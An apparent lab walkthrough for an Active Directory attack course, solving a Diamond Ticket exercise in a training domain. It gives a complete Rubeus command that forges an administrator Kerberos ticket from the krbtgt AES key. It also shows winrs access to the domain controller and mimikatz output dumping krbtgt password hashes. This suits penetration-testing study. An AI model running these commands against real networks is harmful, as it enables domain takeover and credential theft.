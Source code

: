 ```yaml
---
description: Learning Object 10
icon: vial
---
```


# 10 - LO1️0️

## Tasks



1 - Use Domain Admin privileges obtained earlier to execute the Diamond Ticket attack

Flag 19 \[dcorp-dc] - Name of the account whose secrets are used for the Diamond Ticket attack 🚩



## Solutions

### 1 - Use Domain Admin privileges obtained earlier to execute the Diamond Ticket attack

Run a new shell as administrator and use the following Rubeus command to execute the Diamond Ticket attack:

```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

<figure><img src="../../.gitbook/assets/image (197).png" alt=""><figcaption></figcaption></figure>

Using the new process started, access the DC using winrs:

```powershell
winrs -r:dcorp-dc cmd
set username
```

<figure><img src="../../.gitbook/assets/image (201).png" alt=""><figcaption></figcaption></figure>

### Flag 19 \[dcorp-dc] - Name of the account whose secrets are used for the Diamond Ticket attack 🚩

Krbtgt's secrets are used for the Diamond Ticket attack.

```powershell
Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 11/11/2022 10:59:41 PM
Object Security ID   : S-1-5-21-719815819-3726368948-3917688648-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 4e9815869d2090ccfca61c1fe0d23986
    ntlm- 0: 4e9815869d2090ccfca61c1fe0d23986
    lm  - 0: ea03581a1268674a828bde6ab09db837

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6d4cc4edd46d8c3d3e59250c91eac2bd

* Primary:Kerberos-Newer-Keys *
    Default Salt : DOLLARCORP.MONEYCORP.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848
      aes128_hmac       (4096) : e74fa5a9aa05b2c0b2d196e226d8820e
      des_cbc_md5       (4096) : 150ea2e934ab6b80

* Primary:Kerberos *
    Default Salt : DOLLARCORP.MONEYCORP.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 150ea2e934ab6b80

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  a0e60e247b498de4cacfac3ba615af01
    02  86615bb9bf7e3c731ba1cb47aa89cf6d
    03  637dfb61467fdb4f176fe844fd260bac
    04  a0e60e247b498de4cacfac3ba615af01
    05  86615bb9bf7e3c731ba1cb47aa89cf6d
    06  d2874f937df1fd2b05f528c6e715ac7a
    07  a0e60e247b498de4cacfac3ba615af01
    08  e8ddc0d55ac23e847837791743b89d22
    09  e8ddc0d55ac23e847837791743b89d22
    10  5c324b8ab38cfca7542d5befb9849fd9
    11  f84dfb60f743b1368ea571504e34863a
    12  e8ddc0d55ac23e847837791743b89d22
    13  2281b35faded13ae4d78e33a1ef26933
    14  f84dfb60f743b1368ea571504e34863a
    15  d9ef5ed74ef473e89a570a10a706813e
    16  d9ef5ed74ef473e89a570a10a706813e
    17  87c75daa20ad259a6f783d61602086aa
    18  f0016c07fcff7d479633e8998c75bcf7
    19  7c4e5eb0d5d517f945cf22d74fec380e
    20  cb97816ac064a567fe37e8e8c863f2a7
    21  5adaa49a00f2803658c71f617031b385
    22  5adaa49a00f2803658c71f617031b385
    23  6d86f0be7751c8607e4b47912115bef2
    24  caa61bbf6b9c871af646935febf86b95
    25  caa61bbf6b9c871af646935febf86b95
    26  5d8e8f8f63b3bb6dd48db5d0352c194c
    27  3e139d350a9063db51226cfab9e42aa1
    28  d745c0538c8fd103d71229b017a987ce
    29  40b43724fa76e22b0d610d656fb49ddd


mimikatz(commandline) # exit
Bye!
```
